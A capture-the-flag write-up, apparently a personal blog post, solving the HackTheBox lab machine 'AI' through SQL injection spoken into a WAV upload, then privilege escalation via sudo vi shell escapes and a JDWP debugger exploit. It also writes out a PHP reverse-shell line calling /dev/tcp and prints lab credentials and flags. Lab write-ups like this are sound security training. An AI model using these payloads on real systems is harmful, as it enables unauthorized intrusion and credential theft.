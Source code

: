 ```yaml
---
layout: post
title: HackTheBox.eu Machine Notes - AI
---
```


The below are the notes I made while working on the machine "AI". Enjoy :)

## Details
- https://www.hackthebox.eu/home/machines/profile/216
- **10.10.10.163**

## User

### NMAP Results
Command:
```
┌─[idomino@parrot]─[~]
└──╼ (base) $nmap -p0-65535 -sV -v 10.10.10.163
```

Results
```
Nmap scan report for 10.10.10.163
Host is up (0.020s latency).
Not shown: 99 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Dirbuster results

File found: /index.php - 200
File found: /contact.php - 200
File found: /about.php - 200
Dir found: /images/ - 403
Dir found: / - 200
Dir found: /icons/ - 403
File found: /ai.php - 200
Dir found: /uploads/ - 403
File found: /db.php - 200
File found: /intelligence.php - 200

### Website at port 80

We seem to be able to upload a wav file. at ai.php

http://10.10.10.163/intelligence.php has the instructions.
Also has this hint: We mostly use similar approach as Microsoft does.
Note: Currently our is API well familiar with Male-US model

Using this python script I could generate a "hello friend" wav that the page understood:
https://github.com/Azure-Samples/Cognitive-Speech-TTS/tree/master/Samples-Http/Python

Will try to embed something like this:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
```

Which didn't work, but it is MySQL. For the sentence: I'm a teapot
```
Our understanding of your input is : i'm a teapot
Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'm a teapot'' at line 1
```

Some progess: "Open single quote or Won comment database" returns:
```
Our understanding of your input is : 'or 1 -- -
Query result : print("hi")
```

Some info on the schema name: "Open single quote union select password from user Comment database":

```
Our understanding of your input is : 'union select password from user -- -
Query result : Table 'alexa.user' doesn't exist
```

Managed to extract a password wirh "Open single quote union select password from users Comment database"
```
Our understanding of your input is : 'union select password from users -- -
Query result : H,Sq9t6}a<)?q93_
```

### Getting the user flag

And that's all the creds we need :)
-username: alexa
-password: H,Sq9t6}a<)?q93_

```
┌─[idomino@parrot]─[~/Desktop]
└──╼ (base) $ssh alexa@10.10.10.163
The authenticity of host '10.10.10.163 (10.10.10.163)' can't be established.
ECDSA key fingerprint is SHA256:ghI7byxujOo6BLzCOPFbXgVPMmJVCoRsMuPs3zBgRQM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.163' (ECDSA) to the list of known hosts.
alexa@10.10.10.163's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.3.7-050307-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Nov 10 07:41:15 UTC 2019

  System load:  0.09               Processes:           148
  Usage of /:   28.2% of 19.56GB   Users logged in:     0
  Memory usage: 29%                IP address for eth0: 10.10.10.163
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

63 packages can be updated.
15 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Nov 10 00:12:50 2019 from 10.10.14.76
alexa@AI:~$ cat user.txt
c43b62c682a8c0992eb6d4a2cda55e4b
```

## Root

## Recon

We can run vi as other users except root:
```
alexa@AI:/$ sudo -l
[sudo] password for alexa: 
Matching Defaults entries for alexa on AI:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alexa may run the following commands on AI:
    (ALL, !root) /usr/bin/vi

alexa@AI:/$ sudo -u www-data vi /var/tmp/macska.txt
alexa@AI:/$ ll /var/tmp/macska.txt
-rw-r--r-- 1 www-data www-data 5 Nov 10 09:15 /var/tmp/macska.txt
```

We essentially have a shell for any user this way as vi supports running a shell:
```
sudo -u mrr3boot vi /var/tmp/macska
```
```
:sh
$ /bin/bash
mrr3boot@AI:/$
```

There are some DB creds here:
```
alexa@AI:/var/www/html$ cat db.php 
<?php
$conn = new mysqli('localhost','dbuser','toor','alexa');
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

We can use these to connect to the DB from the tty:
```
alexa@AI:/$ mysql --user=dbuser --password alexa
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 74
Server version: 5.7.27-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

And list the users:
```
mysql> select * from users;
+----------+------------------+
| username | password         |
+----------+------------------+
| alexa    | H,Sq9t6}a<)?q93_ |
| root     | H,Sq9t6}a<)?q931 |
| dbuser   | toor             |
| awsadm   | awsadm           |
+----------+------------------+
```

### Exploitation

Files are moved to the machine when needed using a python http server.

pspy64 shows this command running every 2 minutes:
```
2019/11/10 16:46:04 CMD: UID=0    PID=42093  | /usr/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n -Dignore.endorsed.dirs= -classpath /opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/apache-tomcat-9.0.27/bin/tomcat-juli.jar -Dcatalina.base=/opt/apache-tomcat-9.0.27 -Dcatalina.home=/opt/apache-tomcat-9.0.27 -Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp org.apache.catalina.startup.Bootstrap start 
```

Which can be exploited by: https://github.com/IOActive/jdwp-shellifier

Managed to get the flag by copying to an existing file after a lot of trial and error and not sure what makes it work:
```
alexa@AI:/var/tmp$ touch /var/tmp/123456.txt

alexa@AI:/var/tmp$ python /tmp/jdwp-shellifier.py -t localhost -p 8000 --cmd "cp /root/root.txt /var/tmp/123456.txt"
[+] Targeting 'localhost:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=a9c
[+] Found Runtime.getRuntime(): id=7fdf30023900
[+] Created break event id=2
[+] Waiting for an event on 'java.net.ServerSocket.accept'
[+] Received matching event from thread 0x1
[+] Selected payload 'cp /root/root.txt /var/tmp/123456.txt'
[+] Command string object created id:b41
[+] Runtime.getRuntime() returned context id:0xb42
[+] found Runtime.exec(): id=7fdf30023938
[+] Runtime.exec() successful, retId=b43
[!] Command successfully executed

alexa@AI:/var/tmp$ cat 123456.txt 
0ed04f28c579bf7508a0566529a8eaa3
```
